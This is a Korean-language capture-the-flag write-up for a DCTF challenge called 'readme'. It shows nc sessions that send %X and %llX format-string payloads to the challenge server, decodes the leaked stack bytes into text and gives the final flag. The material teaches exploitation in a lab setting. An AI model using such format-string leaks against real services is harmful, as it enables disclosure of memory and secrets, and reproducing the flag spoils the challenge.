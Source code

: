 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-05-18-17-45-20.png)

첨부파일

[readme.zip](https://rdmd.readme.io/docs/code-blocks)


# **Write-Up**

바이너리 파일을 IDA를 통해 Pseudocode로 보면 printf(&format)으로 format string bug가 터진다.

![](images/2022-05-18-17-45-57.png)

먼저 nc를 이용하여 서버에 "%X,%X,%X,%X,%X,%X,%X,%X,%X,%X"를 입력해서 결과를 확인한다.

```sh
root@ubuntu:~# nc dctf-chall-readme.westeurope.azurecontainer.io 7481
hello, what's your name?
%X,%X,%X,%X,%X,%X,%X,%X,%X,%X
hello 47BD5F00,0,0,6,6,0,6137A2A0,66746364,5F30675F,6D30735F
```

8번째 %X에서 66746364라는 값이 나오고 stack에는 낮은 주소부터 높은 주소로 채워지기때문에 66746364는 dctf로 해석된다. 하지만 64bit바이너리이기 때문에 "%X%X%X%X%X%X%X,%llX,%llX,%llX"를 입력해서 결과를 확인한다.

```sh
root@ubuntu:~# nc dctf-chall-readme.westeurope.azurecontainer.io 7481
hello, what's your name?
%X%X%X%X%X%X%X,%llX,%llX,%llX
hello 88C845000066034EB12A0,77306E7B66746364,646133725F30675F,30625F656D30735F
```

첫번째 %llX는 마찬가지로 뒤에서부터 hex값을 ascii로 바꾸면 dctf{n0w으로 바꿀 수 있고, 마지막까지 바꿔보면 dctf{n0w_g0_r3ad_s0me_b0로 바뀐다.

아직 문자열이 잘렸기 때문에 "%X%X%X%X%X%X%X%X%X,%llX,%llX"를 입력해서 결과를 확인한다.

```sh
root@ubuntu:~# nc dctf-chall-readme.westeurope.azurecontainer.io 7481
hello, what's your name?
%X%X%X%X%X%X%X%X%X,%llX,%llX
hello CCB9A71000660745F32A0667463645F30675F,30625F656D30735F,7F5F00356B30
```

마지막 %llX에 대한 값을 보면 30 6B 35 00 5F 7F가 나왔는데 00을 NULL이므로 35까지만 바꿔보면 0k5가 된다. }로 닫아야 flag형식이 완성되는데 개발자의 실수로 보이거나, 내가 잘못 접근하고 있을지도 모르겠다.

최종적으로 모든 문자열을 합치면 dctf{n0w_g0_r3ad_s0me_b00k5가 되고 flag는 }를 붙혀서 제출하면 된다.

# **FLAG**

**dctf{n0w_g0_r3ad_s0me_b00k5}**